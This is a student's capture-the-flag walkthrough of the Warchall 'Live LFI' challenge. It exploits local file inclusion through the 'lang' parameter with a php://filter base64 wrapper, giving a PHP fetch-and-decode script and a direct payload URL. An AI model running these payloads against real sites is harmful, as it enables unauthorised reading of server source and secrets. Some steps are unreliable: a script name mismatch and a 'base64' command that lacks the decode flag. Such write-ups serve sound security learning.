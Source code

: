# Level 14 :
---
# _Warchall : Live LFI_
---
---
In this challenge of the LFI (Local File Inclusion), we are redirected to this link of LFI challenge web site : https://lfi.warchall.net/ .

First thing to do is to check the vulnerability of that web page. We remarque that if we click on the flag we see in the web site, we see that the propriety of the ling changes such as :
-   https://lfi.warchall.net/index.php?lang=en
-   https://lfi.warchall.net/index.php?lang=de

So I tryed to see what else can I put there so I tryed lot of things like https://lfi.warchall.net/index.php?lang=solution , https://lfi.warchall.net/index.php?lang=solution/ etc ...
But something happen when I tryed this one : https://lfi.warchall.net/index.php?lang=solution.php.
There is a message there that says : "_teh falg si naer!
the flag is near!_ and "_fatal error: Uncaught TypeError: Cannot access offset of type string on string in /home/level/14_live_fi/www/index.php:12 Stack trace: #0 {main} thrown in /home/level/14_live_fi/www/index.php on line 12
Fatal error: Uncaught GWF_Exception: thrown in /opt/php/gwf3/core/inc/util/GWF_Log.php on line 249"_

SO I did some research on how we can find the solution especially on Local File Inclusion and document myself on this website : https://www.php.net/manual/fr/filters.convert.php. Then got an idea how to solve it.

The purpose is to use a php wrapper on the link of the challenge to get the solution
First thing first is to write the php codethat you can put in your ```~```or you can also use ```/tmp```. In my case I used ```/tmp``` and redirect the solution in a file named ```solution_decoded.php``` :

```sh
<?php
$targetURL = 'http://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php';
$base64Content = file_get_contents($targetURL);
$decodedContent = base64_decode($base64Content);
file_put_contents('/tmp/solution_decoded.php', $decodedContent);
?>
```
This code consists on getting the url of the challenge which is ```https://lfi.warchall.net/index.php?lang=```use php wrapper, converting it on base64. Get the source code and decode it through the php code and look at the file ```solution_decode.php```

Now after creating that file, for example we name it ```lfi.php```, we should lunch it (execute it);
```sh
yourUsername@warchall:~$ php fli.php
```
Then look at your ```solution_decoded.php```:
```sh
yourUsername@warchall:~$ cat /tmp/solution_decoded.php
```

There you go! -----------


Or you can also immediatelly use the url to get the solution without writing a php code on warchall box just using this url below :
```sh
view-source:https://lfi.warchall.net/index.php?lang=php://filter/convert.base64-encode/resource=solution.php
```
and coping the first text you see on the source code of this page and write it on a file named for example ```level14_solution.txt``` then decode :
```sh
yourUsername@warchall:~$ base64 level14_solution.txt
```
There you go!


